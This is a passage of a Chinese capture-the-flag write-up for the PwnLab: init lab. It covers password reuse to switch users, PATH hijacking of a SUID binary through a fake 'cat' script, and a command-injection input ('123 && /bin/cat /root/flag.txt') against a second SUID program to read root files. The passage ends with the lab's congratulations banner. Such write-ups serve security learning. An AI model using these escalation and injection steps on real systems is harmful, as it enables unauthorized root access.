 查看下 /home 目录，看看有哪些用户：john、mike、kane、kent，尝试用上面数据库中得到的密码，看是否能切换到对应用户，结果发现 kent 和 kane 用户能切换。

在 kane 中的 home 目录中，发现了一个 suid 文件：msgmike，尝试执行下，看看什么效果，文件访问了 mike 目录下的一个文件，但是现在 mike 的密码我们没有，不能切换。但是我们发现这个 cat 命令没有使用完整路径，这就可以给我们进行利用：

```
kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory
```

在当前目录下，建立 cat，内容为：

```
echo 'chmod 777 /home/mike' > cat
chmod +x cat
export PATH=.:$PATH
./msgmike
```

我们就能访问 /home/mike 文件夹了，在该文件夹下发现了另外一个 suid 程序 msg2root，使用 strings 查看程序中的字符串：

```
Message for root:
/bin/echo %s >> /root/messages.txt
```

## falg

这里可以用 2 段输入参数，来执行我们的特殊命令：

```
123 && ls -al /root

123 && /bin/cat /root/flag.txt

.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
```
